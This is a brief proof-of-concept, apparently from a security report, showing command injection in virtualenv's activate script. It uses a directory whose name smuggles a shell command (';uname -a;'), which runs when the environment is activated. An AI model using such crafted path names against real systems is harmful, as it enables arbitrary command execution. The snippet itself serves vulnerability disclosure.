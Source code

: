 # PoC

```console
envname="';uname -a;':"
mkdir "$envname"
cd "$envname"
virtualenv .
. ./bin/activate
```
